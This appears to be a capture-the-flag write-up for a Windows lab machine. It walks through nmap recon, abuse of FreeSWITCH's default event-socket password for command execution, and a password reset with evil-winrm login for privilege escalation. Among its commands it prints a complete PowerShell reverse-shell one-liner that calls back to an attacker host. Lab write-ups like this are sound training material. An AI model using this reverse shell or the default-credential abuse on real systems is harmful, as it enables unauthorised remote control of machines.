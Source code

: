 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)

## Recon-Enumeration  
nmap -A -Pn 10.2.0.17  
![alt text](./img/networked01.PNG?raw=true)  
  
![alt text](./img/networked02.PNG?raw=true)  
  
## Exploit  
searchsploit free switch  
![alt text](./img/networked03.PNG?raw=true)  
  
searchsploit -x windows/remote/47799.txt  
![alt text](./img/networked04.PNG?raw=true)  

Ok, so just create a file with the name “freeswitch-exploit.py” with the above code:  
![alt text](./img/networked05.PNG?raw=true)  
  
Now let’s run the exploit  
![alt text](./img/networked06.PNG?raw=true)  
  
Great, so we are the user mario, let’s try other commands  
./freeswitch-exploit.py 10.2.0.17 "powershell -c Get-Location"  
![alt text](./img/networked07.PNG?raw=true)  
  
So we can execute powershell commands. Let’s try something sneaky :D  
I failed using the exploit to get a reverse shell….so i study the code  
It connect to the target on port 8021, then send the as credential the default password of FreeSwitch and give 2 new lines (enter)  
![alt text](./img/networked08.PNG?raw=true)  
  
So i tried this with netcat  
![alt text](./img/networked09.PNG?raw=true)  
  
Success...after he send the command with “api system COMMAND”  
![alt text](./img/networked10.PNG?raw=true)  
  
So let’s try this too  
![alt text](./img/networked11.PNG?raw=true)  
  
Great, now we can try to get a reverse shell with a powershell script:  
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.2.0.4',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS' + (pwd) + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"  

Start a netcat listener on port 1234 and let’s try to run this script  
![alt text](./img/networked12.PNG?raw=true)  
  
![alt text](./img/networked13.PNG?raw=true)  
HABEMUS SHELL \o/  

Just go to Mario’s desktop and grab the first flag  
![alt text](./img/networked15.PNG?raw=true)  
  
While enumeration we found another user “networked”, and we can found the root.txt on his desktop.  
However we can’t read it  
![alt text](./img/networked18.PNG?raw=true)  

## Privesc  
So let’s get some information to elevate our privileges  
whoami /priv  
![alt text](./img/networked14.PNG?raw=true)  
  
systeminfo  
![alt text](./img/networked16.PNG?raw=true)  
  
net user  
net user mario  
![alt text](./img/networked17.PNG?raw=true)  
 
Ok, so we have authorization to change user password. Let’s try with the user “networked”  
net user networked 123456  
![alt text](./img/networked19.PNG?raw=true)  
 

Well, since we have port 5985 open we can use evil-winrm to connect to it with our new credential  
evil-winrm -i 10.2.0.17 -u networked -p 123456  
![alt text](./img/networked20.PNG?raw=true)  
  
Great, now just grab the flag  
![alt text](./img/networked21.PNG?raw=true)  
 
